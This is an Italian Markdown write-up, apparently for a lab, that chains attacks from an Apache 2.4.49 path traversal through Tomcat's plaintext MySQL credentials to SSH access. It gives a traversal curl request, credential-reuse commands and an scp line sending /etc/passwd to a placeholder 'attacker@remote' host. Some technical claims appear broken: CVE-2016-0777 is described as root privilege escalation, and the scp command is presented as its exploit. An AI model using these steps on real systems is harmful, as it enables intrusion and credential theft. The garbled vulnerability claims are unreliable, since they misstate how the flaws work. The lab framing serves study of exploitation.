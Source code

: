 # **Concatenazione delle Vulnerabilità: Apache, Tomcat, MySQL e SSH**

## **Introduzione**
Questo documento descrive il processo di concatenazione delle vulnerabilità tra **Apache 2.4.49**, **Tomcat 8.5.32**, **MySQL 5.7.29** e **SSH 7.2p2** per simulare un attacco avanzato in un ambiente controllato. Lo scopo è creare un'escalation di privilegi attraverso una serie di exploit concatenati.

La strategia segue questa sequenza:

1. **Apache → Tomcat** (Path Traversal e Remote Code Execution - CVE-2021-41773)
2. **Tomcat → MySQL** (Credenziali in chiaro in `context.xml` e JDBC exploit)
3. **MySQL → SSH** (Esfiltrazione di credenziali e accesso persistente)

## **1. Apache 2.4.49 → Tomcat 8.5.32**
Apache è stato configurato per inoltrare richieste a Tomcat tramite il connettore **mod_jk**, rendendo possibile un attacco di **Path Traversal** per accedere a file sensibili.

### **1.1 Configurazione mod_jk**
Apache è stato configurato con il modulo **mod_jk**, e il file di configurazione **workers.properties** è stato impostato per inoltrare richieste a Tomcat:

```bash
sudo nano /usr/local/apache2/conf/workers.properties
```

Contenuto:
```
worker.list=tomcatWorker
worker.tomcatWorker.type=ajp13
worker.tomcatWorker.host=127.0.0.1
worker.tomcatWorker.port=8009
```

### **1.2 Path Traversal Exploit**
Apache 2.4.49 è vulnerabile a **CVE-2021-41773**, permettendo di accedere a file arbitrari:

Esempio di exploit:
```bash
curl -v "http://[IP_PUBBLICO]/icons/../../../../opt/tomcat/tomcat/conf/context.xml"
```

Se l'attacco ha successo, viene mostrato il contenuto di `context.xml`, che contiene credenziali in chiaro per il database MySQL.

## **2. Tomcat 8.5.32 → MySQL 5.7.29**
Una volta ottenute le credenziali dal **context.xml**, l'attaccante può connettersi a MySQL.

### **2.1 Lettura delle credenziali da context.xml**
Nel file `context.xml` abbiamo:
```xml
<Resource name="jdbc/tomcatdb"
          auth="Container"
          type="javax.sql.DataSource"
          username="tomcat"
          password="tomcat123"
          driverClassName="com.mysql.cj.jdbc.Driver"
          url="jdbc:mysql://127.0.0.1:3306/tomcat_db?autoReconnect=true&useSSL=false"
          maxActive="20"
          maxIdle="10"
          maxWait="-1"/>
```

L'attaccante ora ha accesso a `tomcat_db` con credenziali **tomcat/tomcat123**.

### **2.2 Accesso al database MySQL**
```bash
mysql -u tomcat -p -h 127.0.0.1
```
Inserendo la password **tomcat123**, l'attaccante ottiene accesso al database.

Ora può cercare credenziali SSH salvate nel database con:
```sql
SELECT * FROM users;
```

Se le credenziali sono salvate in chiaro, può usarle per accedere a SSH.

## **3. MySQL 5.7.29 → SSH 7.2p2**
Se MySQL contiene credenziali per SSH, l'attaccante può utilizzarle per ottenere accesso al server.

### **3.1 Verifica dell’accesso SSH**
Se trova credenziali valide, può tentare l'accesso con:
```bash
ssh user@[IP_PUBBLICO]
```
Se ha successo, l’attaccante ha ottenuto un accesso persistente al sistema.

### **3.2 Privilege Escalation su SSH**
OpenSSH 7.2p2 è vulnerabile a **CVE-2016-0777**, che consente l'esfiltrazione di chiavi private.

Esempio di exploit:
```bash
scp -S '/dev/fd/3' /etc/passwd attacker@remote:/tmp/passwd_copy
```

Se l'attacco ha successo, l’attaccante ottiene le credenziali dell’utente root.

## **Conclusione**
Abbiamo costruito una catena di vulnerabilità che consente un'escalation progressiva:
1. **Apache → Tomcat** (Path Traversal per rubare credenziali MySQL)
2. **Tomcat → MySQL** (Accesso al database per estrarre credenziali SSH)
3. **MySQL → SSH** (Utilizzo delle credenziali per ottenere accesso persistente al server)

Questa configurazione consente di simulare attacchi reali e studiare tecniche di exploitation in un ambiente sicuro e controllato.

